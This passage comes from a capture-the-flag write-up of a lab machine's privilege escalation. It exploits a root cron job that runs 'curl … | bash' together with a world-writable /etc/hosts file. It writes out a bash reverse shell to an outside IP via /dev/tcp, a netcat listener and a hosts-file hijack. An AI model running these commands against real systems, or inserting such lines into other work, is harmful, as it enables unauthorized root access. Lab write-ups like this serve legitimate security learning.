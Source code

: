```
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

There we see it on the last line. Every minute cron will download the buildscript from the webside and execute it as root. So if we can edit that script we can run whatever command we want as root.

Now we just need to find where the script is, since the reference in the crontab pulls it from the webserver.  There doesn't seem to be any obvious directories that are the web root in `/var` so let's just search the system for the script.

`find / -iname buildscript.sh -type f 2>/dev/null`

But this gives us no results. So if the script is on this system, then we must not have access to it.

The way the script is being accessed might give us another way in though. The curl command is using the host overpass.thm and not an IP address. If we look at /etc/hosts we can see that it is mapped to the localhost IP 127.0.0.1 and the other interesting thing is that we have write permissions for the hosts file

```
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 253 Sep 29 01:09 /etc/hosts
```

So if we change the IP address for overpass.thm to our local address, then the curl request in the crontab will be made there, and we can supply whatever build script we like.

Let's start a web server on our local machine with python
`python3 -m http.server 80`
pretty quickly we start to see requests coming in from the cron job, at the moment they are just giving 404 errors because we haven't put a file in an appropriate path
```
10.10.244.201 - - [28/Sep/2021 21:09:16] code 404, message File not found
10.10.244.201 - - [28/Sep/2021 21:09:16] "GET /downloads/src/buildscript.sh HTTP/1.1" 404 -
```

So let's save the below as the buildscript.sh on our webserver (replacing the IP with our own)

`bash -i >& /dev/tcp/10.10.10.10/1234 0>&1`

and then  start up a netcat listener to receive the remote shell request

`nc -lnvp 1234`

And within a minute you should see the successful request made to the python web server, and then the connection on the netcat listener:

![[Pasted image 20210929114619.png]]

And just like that we now have root access! The root flag is right there.
